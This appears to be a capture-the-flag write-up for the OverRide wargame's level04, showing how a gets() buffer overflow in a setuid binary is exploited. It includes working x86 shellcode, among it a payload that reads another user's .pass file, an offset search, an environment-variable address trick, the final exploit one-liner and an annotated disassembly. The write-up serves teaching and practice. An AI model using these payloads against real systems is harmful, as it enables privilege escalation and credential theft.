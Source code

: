 # LEVEL04
**Info: level protect option**
```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```
---
```sh
level04@OverRide:~$ ls -la
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
level04@OverRide:~$ ./level04 
Give me some shellcode, k
42
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
```
We can find one excutable file **level04**, who take standard input, he wants some shellcode, but do not anything. \
\
Check it with GDB,

```sh
Breakpoint 1, 0x0804875e in main ()
(gdb) p/x $eax
$2 = 0xffffd670
```

After analyzing asm code, we could find buffer overflow-able function ```gets```, but there is also a protection for the ```exec``` system call (syscall number 11). \
So we have to somehow 1. get the flag without running the ```exec``` 2. and run the exploit code. \
First let's find the offset of buffer overflow
```sh
python3 pattern_generator.py
=== Buffer Overflow Pattern Generator & Offset Finder ===
Enter the length of the pattern to generate: 200
Generated pattern (200 bytes):
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag

Enter the hex value to find (e.g., 0x63613563): 0x61326661
Little Endian ASCII representation: 'af2a'
'af2a' found at offset: 156
```
We could've put our shell code's address at 156 offset, but since it has ```exec``` syscall inside, we are going to use another shell code which will directly give us the flag for the next level
```sh
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x86\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```
This machine code will try to open the file specified at the end of code and directly write it out on the ```stdout```. \
Also since we exported our shell code we have to find it's address. Let's perform it with writing simple c code ```getenv.c``` which will give us an address we need.
```sh
level04@OverRide:~$ cat /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    printf("%p\n", getenv("SHELLCODE"));
}
level04@OverRide:/tmp$ gcc -m32 /tmp/getenv.c
level04@OverRide:/tmp$ ./a.out 
0xffffd8b0
```
Note that we are running on x86_64, so we have to compile our program for 32bit to get the address in 32bit format. \
Now let's try to run our program with our exploit input.
```sh
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04 
Give me some shellcode, k
(hidden)
child is exiting...
```
level04 passed !

assmebly analayse
---
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp # 176
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    %eax,0xac(%esp) # var pid = fork()
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx # str[128] # 172 - 32 = 140 - 12 = 128
   0x080486e6 <+30>:    mov    $0x0,%eax # 0
   0x080486eb <+35>:    mov    $0x20,%edx # 32
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi) # memset(str[128], 128, 0)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp) # some variable init with 0 int a = 0
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp) # some variable init with 0 int b = 0
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp) # if pid == 0
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    movl   $0x1,0x4(%esp) # parent process
   0x0804871b <+83>:    movl   $0x1,(%esp)
   0x08048722 <+90>:    call   0x8048540 <prctl@plt> # prctl(PR_SET_PDEATHSIG, SIGHUP)  # https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h
   0x08048727 <+95>:    movl   $0x0,0xc(%esp)
   0x0804872f <+103>:   movl   $0x0,0x8(%esp)
   0x08048737 <+111>:   movl   $0x0,0x4(%esp)
   0x0804873f <+119>:   movl   $0x0,(%esp)
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt> # ptrace(PTRACE_TRACEME, 0, 0, 0) # https://github.com/torvalds/linux/blob/master/include/uapi/linux/ptrace.h
   0x0804874b <+131>:   movl   $0x8048903,(%esp) # "Give me some shellcode, k"
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    0x20(%esp),%eax # str[128]
   0x0804875b <+147>:   mov    %eax,(%esp)
   0x0804875e <+150>:   call   0x80484b0 <gets@plt> # @ vulnerability @
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop						# loop +296
   0x08048769 <+161>:   lea    0x1c(%esp),%eax # child process
   0x0804876d <+165>:   mov    %eax,(%esp) # var
   0x08048770 <+168>:   call   0x80484f0 <wait@plt> # wait(b)
   0x08048775 <+173>:   mov    0x1c(%esp),%eax
   0x08048779 <+177>:   mov    %eax,0xa0(%esp) # var
   0x08048780 <+184>:   mov    0xa0(%esp),%eax
   0x08048787 <+191>:   and    $0x7f,%eax # 0111_1111
   0x0804878a <+194>:   test   %eax,%eax # if 0
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    0x1c(%esp),%eax
   0x08048792 <+202>:   mov    %eax,0xa4(%esp)
   0x08048799 <+209>:   mov    0xa4(%esp),%eax
   0x080487a0 <+216>:   and    $0x7f,%eax
   0x080487a3 <+219>:   add    $0x1,%eax
   0x080487a6 <+222>:   sar    %al # or its synonym shl # https://docs.oracle.com/cd/E19455-01/806-3773/instructionset-27/index.html
   0x080487a8 <+224>:   test   %al,%al
   0x080487aa <+226>:   jle    0x80487ba <main+242> # if (((b & 0x7f) != 0 && (((b & 0x7f) + 1) >> 1) <= 0))
   0x080487ac <+228>:   movl   $0x804891d,(%esp) # "child is exiting..."
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338> # return (0)
   0x080487ba <+242>:   movl   $0x0,0xc(%esp) # 0
   0x080487c2 <+250>:   movl   $0x2c,0x8(%esp) # 44
   0x080487ca <+258>:   mov    0xac(%esp),%eax # var pid
   0x080487d1 <+265>:   mov    %eax,0x4(%esp)
   0x080487d5 <+269>:   movl   $0x3,(%esp)
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt> # ptrace(3, pid, 44, 0)
   0x080487e1 <+281>:   mov    %eax,0xa8(%esp) # return of ptrace
   0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp) # if (ptrace(PTRACE_PEEKUSER, pid, 44, 0) == 11)
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   movl   $0x8048931,(%esp) # "no exec() for you"
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   movl   $0x9,0x4(%esp) # 9
   0x0804880a <+322>:   mov    0xac(%esp),%eax # var pid
   0x08048811 <+329>:   mov    %eax,(%esp)
   0x08048814 <+332>:   call   0x8048520 <kill@plt> # kill(pid, 9) # SIG_KILL
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret    
End of assembler dump.
```